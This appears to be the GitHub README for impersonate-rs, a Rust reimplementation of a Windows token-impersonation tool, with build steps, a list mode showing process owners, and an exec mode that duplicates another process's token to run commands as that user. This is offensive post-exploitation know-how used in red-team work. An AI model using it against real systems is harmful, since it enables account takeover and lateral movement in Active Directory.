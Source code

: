 # impersonate-rs

Reimplementation of [Defte](https://twitter.com/Defte_) [Impersonate](https://github.com/sensepost/impersonate) in plain Rust. For more informations about it, see this [blogpost](https://sensepost.com/blog/2022/abusing-windows-tokens-to-compromise-active-directory-without-touching-lsass/).

## Disclaimer

I did this in order to learn Rust, so please don't blame my shitty code.

## Build

```
git clone https://github.com/zblurx/impersonate-rs
cd impersonate-rs
make
```

## Usage

```cmd
.\impersonate-rs.exe --help
Rusty Impersonate

Usage: impersonate-rs.exe [OPTIONS] <MODE>

Arguments: <MODE>  list or exec

Options:
      --pid <PID>          pid to impersonate
      --command <COMMAND>  command to execute
      -h, --help               Print help
      -V, --version            Print version 
```

### `list`

The `list` command list processes, with their session id, token type and associated user.
```cmd
X:\>.\impersonate-rs.exe list
                  
[winlogon.exe]  [PROCESS: 508][SESSION: 1][TYPE: Primary][System] User: NT AUTHORITY\SYSTEM
[lsass.exe]     [PROCESS: 580][SESSION: 0][TYPE: Primary][System] User: NT AUTHORITY\SYSTEM
[svchost.exe]   [PROCESS: 676][SESSION: 0][TYPE: Primary][System] User: NT AUTHORITY\SYSTEM
[fontdrvhost.exe]       [PROCESS: 700][SESSION: 0][TYPE: Primary][Low] User: Font Driver Host\UMFD-0
[fontdrvhost.exe]       [PROCESS: 708][SESSION: 1][TYPE: Primary][Low] User: Font Driver Host\UMFD-1
[svchost.exe]   [PROCESS: 776][SESSION: 0][TYPE: Primary][System] User: NT AUTHORITY\NETWORK SERVICE
[dwm.exe]       [PROCESS: 860][SESSION: 1][TYPE: Primary][System] User: Window Manager\DWM-1
[svchost.exe]   [PROCESS: 940][SESSION: 0][TYPE: Primary][System] User: NT AUTHORITY\NETWORK SERVICE 
(...)
[cmd.exe]       [PROCESS: 1632][SESSION: 1][TYPE: Primary][High] User: ADCS1\Administrator
[conhost.exe]   [PROCESS: 4260][SESSION: 1][TYPE: Primary][High] User: ADCS1\Administrator
[impersonate-rs.exe]    [PROCESS: 3012][SESSION: 1][TYPE: Primary][High] User: ADCS1\Administrator 
```

### `exec`

The `exec` command open the target process id in the `pid` argument, duplicate its token and execute a command with the new token.

```cmd
X:\>whoami
adcs1\administrator

X:\>.\impersonate-rs.exe exec --pid 5540 --command "whoami"
16 bytes read:
waza\e.cartman 
```